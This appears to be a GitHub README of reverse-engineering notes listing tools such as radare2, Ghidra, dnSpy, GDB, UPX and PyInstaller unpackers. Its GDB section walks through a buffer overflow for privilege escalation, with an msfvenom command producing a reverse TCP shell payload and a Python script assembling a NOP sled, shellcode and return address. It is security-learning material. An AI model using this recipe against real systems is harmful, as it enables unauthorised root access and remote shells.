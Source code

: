 # Reverse Engineering
Everything that you need for about RE

# Radare2 (R2)
Manipulate binaries easily    
You can use R2 to overwrite parts of the assembly code so one part doesn't get called or gets redirected.

## Help
- [https://github.com/radareorg/radare2/blob/master/doc/intro.md](https://github.com/radareorg/radare2/blob/master/doc/intro.md)
- [https://man.archlinux.org/man/radare2.1.en](https://man.archlinux.org/man/radare2.1.en)


# Ghidra
Open source reverse engineering software developed by NSA

## Help
- [https://github.com/NationalSecurityAgency/ghidra](https://github.com/NationalSecurityAgency/ghidra)
- [https://ghidra-sre.org/CheatSheet.html](https://ghidra-sre.org/CheatSheet.html)



# dnSpy
Used for disassembling .NET code

## Github
[https://github.com/dnSpy/dnSpy](https://github.com/dnSpy/dnSpy)



# GDB
GNU Debugger helps with debugging.    
When looking through a binary one might want to perfrom a buffer overflow attack, for which GDB is perfect.

## peda
Python Exploit Development Assistance for GDB

### Links
- [https://github.com/longld/peda](https://github.com/longld/peda)

## Basic buffer overflow
**This could be used if a binary is owned by root, but current user can run it with sudo**    
1. Start gdb with your desired binary
    ```bash
    $ gdb <bin>
    ```
2. Set breakpoint (usually main)
    ```
    (gdb) break <function / offset>
    ```
3. Generate a payload    
    *If the payload is not long / short enough you can always change the size*
    ```bash
    $ python -c 'print("A"*100)'
    ```
4. Run the binary in gdb and enter your payload
    ```
    (gdb) r
    
    Enter string: AAAAAAA...
    ```
    *If the program breaks, it's vulnerable to buffer overflow*
5. Finding the right size      
    Here I personally reduce the length of the paylod by half and if it breaks again repeat the steps.    
    If the program doesn't break, you found a shorter length than the input. Here one can go by increments of 1s or 5s     
    as they like and when the program breaks on a specific length they found the desired length.    
    You can see if the payload is loaded into the EIP register upon running `info registers` in gdb.
    1. If the payload is one less than the right size, the register will have one random HEX char at the end
    ```
    (gdb) info registers
    [snip]
    eip     <0x616162> 
    [snip]
    ```
    In the above code `62` is the random char. So, however long was the payload above, we need to add one more charcter to it.     
    For simplicity's sake let's say that the correct size was `512`.

6. Making the actual payload
    1. Finding the EIP address    
        Because the EIP has been overwritten, we don't know the return value of main.     
        So, now input the same payload into the program but take away the last four characters `AAAB` or `616162`.    
        After doing that one will see the return address of the EIP after running `info reg eip` in gdb.
    2. Make a shell code
        ```bash
        msfvenom --payload linux/x86/shell/reverse_tcp LHOST=<ip> LPORT=<port> --format py --bad-chars '\x00\x09\x20\x0a\xff' 
        ``` 
        The command above will give you a shell code to spawn a reverse tcp shell.    
        I didn't run the command so, I am going to assume its length so, let's make it `150` bytes long.      
        **OR**    
        Get a shellcode from here: [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) 
    3. Assemble the payload in Python     
        **Keep in mind that most system are storing data in little endian**    
        *This means that all addresses and bytes have to be reversed*
        ```python
        #!/usr/bin/python3

        # Sizes
        BUFFER      = 512
        SHELLCODE_L = 150
        RET_L       = 4
        NOP_L       = BUFFER - SHELLCODE_L - RET_L

        # Bytes
        SHELLCODE = b"YOUR SHELLCODE HERE"   # Reverse if little endian
        RET_ADDY  = b"YOUR RETURN ADDRESS"   # Reverse if little endian
        NOP_SLED  = b"\x90" * NOP_L

        print(NOP_SLED + SHELLCODE + RET_ADDY)
        ```
7. Running the program with the payload
    ```
    (gdb) r

    Enter string: <payload-here>
    ```

Hopefully this should spawn the attacker a reverse shell.

### References
- **Best help**    [**https://samsclass.info/127/proj/p3-lbuf1.htm**](https://samsclass.info/127/proj/p3-lbuf1.htm)
- [https://www.cyberpunk.rs/buffer-overflow-linux-gdb](https://www.cyberpunk.rs/buffer-overflow-linux-gdb)
- [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html)


# UPX
If a binary is packed with `upx` used this to unpack it:
```bash
upx -d <binary>
```


# PyInstaller packed binaries
Python files can be packed and unpacked to and from a binary.    
Use the links below to unpack said binary.    

After unpacking the binary, use [uncompyle6](https://pypi.org/project/uncompyle6/) to decompile `.pyc` files gotten from the unpacking process.

## The extractor
[https://github.com/extremecoders-re/pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)

### Help
[https://www.fortinet.com/blog/threat-research/unpacking-python-executables-windows-linux](https://www.fortinet.com/blog/threat-research/unpacking-python-executables-windows-linux)